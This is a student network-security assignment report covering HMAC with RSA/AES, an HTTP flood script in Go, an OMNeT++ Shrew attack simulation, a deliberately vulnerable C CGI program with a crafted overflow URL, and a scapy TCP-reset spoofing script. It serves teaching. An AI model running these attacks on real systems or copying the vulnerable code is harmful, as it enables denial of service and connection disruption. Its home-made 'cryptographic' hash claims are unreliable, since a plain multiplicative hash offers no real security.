








# HMAC

## Problem Statement

Implement HMAC and verify message integrity,confidentiality and non repudiation.
(Recommeneded to use your own unique hashing algorithm)

## Solution

Language Used: **Rust**

> The code is too big to be included in the report. It's available in
> [github](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/hmac).

### Approach

We must verify Non Repudiation, Confidentiality and Message Integrity. **HMAC**
can be used to verify the **Message Integrity**. We will have to use other
things in order to get **Non Repudiation** and **Confidentiality**. We are using
Public Key Cryptography(in order to get Non Repudiation) and Private Key
Cryptography(in order to get Confidentiality). Namely we're using **RSA** and
**AES**.

Steps we followed are as follow:

1.  Let the message be `MESSAGE`.
2.  Both the sender and receiver have private key and public key of their own.
    Let the public key `PUB(sender)` and private key be `PRIV(sender)`. Similary
    let the public key of receiver be `PUB(receiver)` and private key of
    receiver be `PRIV(receiver)`.
3.  Let `AESKEY` be key for AES. `AESKEY` is known only to the sender initially.
4.  **Sender** encrypts the `AESKEY` with `PUB(receiver)`. Let the result be
    `enc1`
5.  **Sender** will then encrypt `enc1` with `PRIV(sender)`. Let the result be
    `ENC_AES_KEY`.

```rust
let priv_key = rsa::encrypt_private(&rsa::encrypt_public(AES_KEY));
```

6.  **Sender** will now encrypt `MESSAGE` with `AESKEY`. Let the result be
    `ENC_MSG`.
7.  **Sender** will use hmac to generate the signature for `ENC_MSG`.
8.  In our case, we're using two hashing algorithm for hmac. We're using a well
    known and popular cryptographic hashing algorithm `Blake3` and another one
    made by us which we're naming `FibMulCombineHash`.

### FibMulCombineHash description

-   The code is available in `hmac/src/hash.rs`. There are some tests for it as
    well.

`FibMulCombineHash` is a cryptographic hashing algorithm which outputs 128 bit
digest. The inspiration for this algorithm was taken from the book
[The Art of Computer Programming by Donald Knuth, Volume 3,Section 6.4, page 518](https://www.amazon.in/Art-Computer-Programming-Sorting-Searching/dp/0201896850).
The algorithm is extremely fast, because it's just a multiplication followed by
a shift, in order to bring the output to some [0, 2^k^ ) domain. We don't have
the shift state as we want the domain to be full [0, 2^128^ ). The hash function
is known to produce a very uniform distribution of hash values, hence minimizing
collisions.

We hash each input byte with this and combine all of them parallely, which makes
a very good usage of CPU cores. **In order to hash a 2 Mega Byte String, our CPU
usage was well over 200% for this algorithm**. The hash combining strategy is
also just a bunch of shifts and additions which will be very fast. The hash
function has `Avalanche Effect` as well, whcih makes it a very hash function.

| Code for FibMulCombineHash(Part 1) |
| :--------------------------------- |
|                |

| Code for FibMulCombineHash(Part 2) |
| :--------------------------------- |
|                |

| More than 200% CPU usage for 2MB string |
| :-------------------------------------- |
|                |

| Code for 200% CPU usage        |
| :----------------------------- |
|  |

| Avalanche Effect         |
| :----------------------- |
|  |

9. We will send **HMAC** value calculated using both of these hash functions to
   the receiver.
10. Sender will then generate a json file called `sender.json` which follows the
    following struct.

```rust
pub struct SenderStruct {
    // stores ENC_AES_KEY
    pub rsa_enc_aes_key: Vec<u8>,
    // stores  ENC_MSG
    pub aes_encrypted_message: Vec<u8>,
    //stores Hmac of ENC_MSG with Blake3
    pub hmac_blake3: Vec<u8>,
    // Stores Hmac of ENC_MSG with FibMulCombineHash
    pub hmac_custom_hash: Vec<u8>,
}
```

11. **Receiver** will read `sender.json` and get the fields from it.
12. **Receiver** will then verify the `HMAC` for both the hash functions. This
    proves **Message Integrity**.
13. **Receiver** will then go on and decrypt the `ENC_AES_KEY` using
    `PRIV(receiver)` and `PUB(sender)`. It will be

```rust
let aes_priv_key =
   rsa::decrypt_private(&rsa::decrypt_public(&sender_params.rsa_enc_aes_key));
```

14. This RSA decryption proves **Non Repudiation**,since private key of the
    sender was involved in the AESKEY encryption.
15. Now the encrypted message `ENC_MSG` can be decrypted using the `AESKEY`.
    This proves **Confidentiality**

### Output

| Sender Output             |
| :------------------------ |
|  |

| Sender Json                |
| :------------------------- |
|  |

| Receiver Output             |
| :-------------------------- |
|  |

# DOS

## Problem Statement

Demonstrate DOS(Denial of Service) Attack

## Solution

Language Used: **Golang**

We have demonstrated DoS attack by sending a large number of HTTP requests to a
webserver (Apache). This is a reliable way to show DoS attack on any server.
Classic TCP DoS attacks like SYN flooding have been mitigated by the Linux kernel
very long ago by introducing limits in the system. For example, the
`tcp_max_syn_backlog` parameter is set to a low value like 512 or 1024 by
default. It represents the maximum number of queued connection requests which
have still not received an acknowledgement from the connecting client.  If this
number is exceeded, the kernel will begin dropping requests, thus preventing SYN
flood. (Reference: [Linux TCP man page](https://man7.org/linux/man-pages/man7/tcp.7.html))

### Output

| 100 Requests           |
| :--------------------- |
|  |

| 500 Requests           |
| :--------------------- |
|  |

| 2000 Requests           |
| :---------------------- |
|  |

| 10000 Requests           |
| :----------------------- |
|  |

All the requests were sent to [this url](https://delta.nitt.edu/~dipesh/output).
It's serving contents of a text file.

We can see from the stats, as the no of requests goes up, the average time take
for a request and number of failed requests grows. This is basically a **Denial
Of Service** for the user as it's increasing the latency as well as bringing
down the availability of the service.

### Code

> Code is small enough, so we're including it in the report. It's available in
> [github](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/denial_of_service)

```go

package main
import (
	"fmt"
	"net/http"
	"os"
	"strconv"
	"sync"
	"time"
)
func request() (bool, time.Duration) {
	time_now := time.Now()

	_, err := http.Get("https://delta.nitt.edu/~dipesh/output")
	if err != nil {
		fmt.Errorf("%v", err)
		return false, time.Since(time_now)
	}

	return true, time.Since(time_now)
}
func main() {
	var mt sync.Mutex
	n := os.Getenv("N")
	c := os.Getenv("C")

	loop_cnt := 1
	conc := 1

	if len(n) != 0 {
		tmp, e := strconv.Atoi(n)
		if e == nil {
			loop_cnt = tmp
		}
	}

	if len(c) != 0 {
		tmp, e := strconv.Atoi(c)
		if e == nil {
			conc = tmp
		}
	}
	fmt.Printf("Concurrency Level: %v, Num of Times: %v\n", conc, loop_cnt)

	sCnt := 0
	fCnt := 0
	successTimes := 0.0
	failureTimes := 0.0

	reportChan := make(chan int)
	var reporterWG sync.WaitGroup
	reporterWG.Add(1)

	go func() {
		defer reporterWG.Done()
		prevTime := time.Now()
		for {
			val := <-reportChan
			if val == 0 {
				fmt.Printf("Reporter thread signing off!!\n")
				break
			}
			if val%500 == 0 {
				curTime := time.Now()
				fmt.Printf("Completed %v requests in %v seconds!!\n", val, curTime.Sub(prevTime).Seconds())
				prevTime = curTime
			}
		}
	}()
	totalCnt := 0
	for i := 0; i < loop_cnt; i++ {
		var wg sync.WaitGroup

		for j := 0; j < conc; j++ {
			wg.Add(1)
			go func() {
				defer wg.Done()
				res, time_taken := request()
				if res {
					mt.Lock()
					totalCnt += 1
					sCnt = sCnt + 1
					successTimes = successTimes + time_taken.Seconds()
					reportChan <- totalCnt
					mt.Unlock()
				} else {
					mt.Lock()
					totalCnt += 1
					fCnt = fCnt + 1
					failureTimes = failureTimes + time_taken.Seconds()
					reportChan <- totalCnt
					mt.Unlock()
				}
			}()
		}
		wg.Wait()
	}
	reportChan <- 0
	reporterWG.Wait()
	fmt.Printf("Success: %d, Failure: %d\n", sCnt, fCnt)
	fmt.Printf("Avg Success Time: %v\n", successTimes/float64(sCnt))
	fmt.Printf("Avg Failure Time: %v\n", failureTimes/float64(fCnt))
}

```

# Shrew Attack

## Problem Statement
Implement Shrew Attack

## Solution

Languages used: C++, NED
Simulator: OMNeT++

> The network configuration is as follows:
```ned
import inet.networklayer.configurator.ipv4.Ipv4NetworkConfigurator;
import inet.node.inet.Router;
import inet.node.inet.StandardHost;
import ned.DatarateChannel;
import inet.applications.tcpapp.TcpBasicClientApp;

simple ShrewClient extends TcpBasicClientApp {
    parameters:
    	@class(ShrewClient);
    	double burstTime @unit(s) = default(1s);
}

network Shrew
{
    parameters:
        int n;
    types:
        channel Channel extends DatarateChannel
        {
            delay = 1us;
            datarate = 100Mbps;
        }
    submodules:
        configurator: Ipv4NetworkConfigurator {
            parameters:
                @display("p=100,100;is=s");
        }
        router: Router {
            @display("p=400,250");
        }
        client: StandardHost {
            parameters:
                @display("p=400,50");
        }
        bot[n]: StandardHost {
            parameters:
                @display("p=250,100,col,100;i=,#C01C28");
        }
        server: StandardHost {
            parameters:
                @display("i=device/server;p=650,250");
        }
    connections:
        for i=0..n-1 {
            bot[i].pppg++ <--> Channel <--> router.pppg++;
        }
        client.pppg++ <--> Channel <--> router.pppg++;
        router.pppg++ <--> Channel <--> server.pppg++;
}
```

> The parameter configuration is as follows:
```ini
[General]
network = Shrew

sim-time-limit = 2s
record-eventlog = true

# number of client computers
*.n = 4

# tcp apps
**.bot[*].numApps = 1
**.bot[*].app[*].typename = "ShrewClient"
**.bot[*].app[0].localAddress = ""
**.bot[*].app[0].localPort = -1
**.bot[*].app[0].connectAddress = "server"
**.bot[*].app[0].connectPort = 80
**.bot[*].app[0].burstTime = 0.001s
**.bot[*].app[0].startTime = 0s
**.bot[*].app[0].numRequestsPerSession = 100000
**.bot[*].app[0].requestLength = intWithUnit(200B)
**.bot[*].app[0].replyLength = intWithUnit(200B)
**.bot[*].app[0].thinkTime = 1ms
**.bot[*].app[0].idleInterval = 1s
**.bot[*].app[0].reconnectInterval = 1s

**.client.numApps = 1
**.client.app[*].typename = "TcpBasicClientApp"
**.client.app[0].localAddress = ""
**.client.app[0].localPort = -1
**.client.app[0].connectAddress = "server"
**.client.app[0].connectPort = 80
**.client.app[0].startTime = 0s
**.client.app[0].numRequestsPerSession = 100000
**.client.app[0].requestLength = intWithUnit(200B)
**.client.app[0].replyLength = intWithUnit(200B)
**.client.app[0].thinkTime =0.2ms
**.client.app[0].idleInterval = 0.2ms
**.client.app[0].reconnectInterval = 1s

**.server.numApps = 1
**.server.app[*].typename = "TcpGenericServerApp"
**.server.app[0].localAddress = ""
**.server.app[0].localPort = 80
**.server.app[0].replyDelay = 0s

# tcp settings
**.app[*].dataTransferMode = "object"

# NIC configuration
**.ppp[*].queue.typename = "DropTailQueue"
**.ppp[*].queue.packetCapacity = 100
```

> The code for the ShrewClient is as follows:
```cpp
void ShrewClient::handleStartOperation(LifecycleOperation *operation)
{
    TcpBasicClientApp::handleStartOperation(operation);
    simtime_t burstTime = par("burstTime");
    simtime_t sendSchedule = simTime() + burstTime;
    for (int i = 0; i < 10; i++) {
        cMessage* sendMessage = new cMessage("send");
        sendMessage->setKind(MSGKIND_SEND);
        scheduleAt(sendSchedule, sendMessage);
    }
}

void ShrewClient::sendRequest()
{
    TcpBasicClientApp::sendRequest();

    simtime_t burstTime = par("burstTime");
    simtime_t sendSchedule = simTime() + burstTime;
    cMessage* sendMessage = new cMessage("send");
    sendMessage->setKind(MSGKIND_SEND);
    scheduleAt(sendSchedule, sendMessage);
}

Define_Module(ShrewClient);
```

## Setup
The `shrew` folder can be opened in OMNeT++ and the simulation can be run.

## Approach
The approach is to create a client that sends a burst of requests every `burstTime` seconds. The burst is set to 10 requests. The `burstTime` is set to 1ms, each of size 200B. The bots are set to send a burst every 1ms. The client is set to send a burst every 1s. The server is set to reply to the requests immediately. The `thinkTime` is set to 0.2ms for the client and 1ms for the bots. The `idleInterval` is set to 0.2ms for the client and 1ms for the bots. The `reconnectInterval` is set to 1s for all the clients. The `numRequestsPerSession` is set to 100000 for all the clients. The `requestLength` and `replyLength` are set to 200B for all the clients. The `dataTransferMode` is set to `object` for all the clients. The `packetCapacity` is set to 100 for all the NICs.

## Results
The topology of the network:



The simulation in progress:


The sequence diagram of the simulation:


# Buffer Overflow

## Problem Statement
Demonstrate Buffer Overflow in TCP.

## Solution

Language Used: **C**

> The code is as follows:
```c
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

#define QUERY_STRING_LEN 150

static char buffer[100];
static void (*function_pointer)();
static char decoded_string[QUERY_STRING_LEN];

void safe_function() {
    printf("%s\n", "This is the normal flow of execution");
}

void unsafe_function() {
    printf("%s\n", "This function should not be called");
}

void decode_query_string(char *query_string) {
    int j = 0, num;
    char num_str[3];
    num_str[2] = '\0';
    for (int i = 0; i < strlen(query_string) && i < QUERY_STRING_LEN;) {
        if (query_string[i] != '%') {
            decoded_string[j] = query_string[i];
            i++;
        } else {
                i++;
                strncpy(num_str, query_string + i, 2);
                num = atoi(num_str);
                num = (num / 10) * 16 + (num % 10);
                decoded_string[j] = (char)num;
                i += 2;
        }
        j++;
    }
}


int main() {
    function_pointer = &safe_function;
    printf("%s\n\n", "Content-type: text/html");
    decode_query_string(getenv("QUERY_STRING"));
    // UNSAGE: `buffer` length is unchecked in this copy
    // The query string can write beyond this buffer into the `function_pointer`
    // which can cause arbitrary functions to be executed.
    strcpy(buffer, decoded_string);
    //printf("%s\n", buffer);
    (void)(*function_pointer)();
    return 0;
}
```

### Setup

The setup of this exploit can be done easily using Docker. The entire setup has
been dockerized. Download the files from
[GitHub](https://github.com/dipeshkaphle/NetSecAssignment/tree/main/buffer_overflow)
and run
```shell
$ docker-compose build
$ docker-compose up -d
```
The vulnerable binary can now be accessed locally from
`http://localhost:8000/cgi-bin/vuln`

### Approach

We host a vulnerable C binary file over a web server (like Apache) as a CGI
program. CGI programs are used commonly in web applications. An unsafe program
such as the one written above can easily be exploited to execute arbitrary code.

The unsafe portion of the code is in the unchecked use of the C standard library
function `strcpy`
```C
strcpy(buffer, decoded_string);
```

If `decoded_string` has more characters than the size of `buffer` (which is
100), it may overwrite beyond its designated region of memory. In this case, the
program is written to make sure that `function_pointer` will be adjacent to
`buffer` in memory. Thus, the address in the `function_pointer` can be
overwritten to any value. We demonstrate one case where it is overwritten by
another function's address (`unsafe_function`). `unsafe_function` is just used
as a proof-of-concept. In practice, buffer overflows can be used for injecting
*shellcode* which can give access to privileged shells or shutdown the system on
which the program is running. A collection of such shell codes is available at
[shell-storm](http://shell-storm.org/shellcode/index.html).

### Demo

The address of `unsafe_function` is determined as `0x5b1640` using `gdb` debugger.
The program takes input from the query string sent in the request. Sending a
short string like "hello" by visiting `http://localhost:8000/cgi-bin/vuln?hello`
makes the program execute normally and we see the output in the browser as

  

Now, we specially craft an input to overwrite the `function_pointer` with the address of the `unsafe_function`. We
use the character "a" as padding and add the address of the function at the end
(by URL encoding it). Now, by making a request to
`http://localhost:8000/cgi-bin/vuln?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`  `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[%16@`
we see that `unsafe_function` is executed!

.

**Note**: The adress of `unsafe_function` might be different on your system. Thus the URL would change based on this address.

# Illegal Packet

## Problem Statement

Demonstrate Illegal Packet attack in TCP.

## Solution

Language Used: **Python**

> The code is as follows:
```python
from scapy.all import *
import ifaddr

DEFAULT_WINDOW_SIZE = 2052

conf.L3socket = L3RawSocket

def log(msg, params={}):
    formatted_params = " ".join([f"{k}={v}" for k, v in params.items()])
    print(f"{msg} {formatted_params}")

def send_reset(iface):
    def f(p):
        src_ip = p[IP].src
        src_port = p[TCP].sport
        dst_ip = p[IP].dst
        dst_port = p[TCP].dport
        seq = p[TCP].seq
        ack = p[TCP].ack
        flags = p[TCP].flags

        log(
            "Sniffed packet",
            {
                "Source IP": src_ip,
                "Destination IP": dst_ip,
                "Source Port": src_port,
                "Destination Port": dst_port,
                "Sequence number": seq,
                "ACK": ack,
            }
        )

        if "S" in flags:
            print("Packet has SYN flag, not sending RST")
            return

        rst_seq = ack
        p = IP(src=dst_ip, dst=src_ip) / \
        TCP(sport=dst_port, dport=src_port, flags="R", window=DEFAULT_WINDOW_SIZE, seq=rst_seq)

        log(
            "Sending RST packet",
            {
                "Original ACK": ack,
                "Sequence number": rst_seq,    
            },
        )

        send(p, verbose=0, iface=iface)

    return f

if __name__ == "__main__":
    localhost_ip = "127.0.0.1"
    local_interfaces = [
        adapter.name for adapter in ifaddr.get_adapters()
        if len([ip for ip in adapter.ips if ip.ip == localhost_ip]) > 0
    ]

    iface = local_interfaces[0]

    localhost_server_port = 9000

    t = sniff(
        iface=iface,
        count=10,
        prn=send_reset(iface)
        # prn=lambda p: p.show()
    )
    wrpcap("temp2.cap", t)
```

### Approach

We show illegal packet attack through TCP Reset Attack. It is performed by
sniffing the traffic between a TCP client and server to track the sequence
numbers. By spoofing a packet with a valid sequence number and the TCP RESET
flag enabled, an attacker can close the connection abruptly.
The script above uses `scapy` to craft TCP packets and sniff the traffic.

### Demo

TCP Reset attack can be carried out as follows:  
1) Set up a simple TCP echo server and client using `netcat`
2) Run the sniffer script to close the connection by spoofing a packet with
   RESET flag enabled.  

The netcat server:  

  

The netcat client:  

  

In the background, the attack script was run just before the last message was
sent. The sequence of TCP packets sent for the last message is visualised using
the `scapy` framework.  

### The Message Packet  

  

### ACK

  

### RESET

  

And the connection is closed!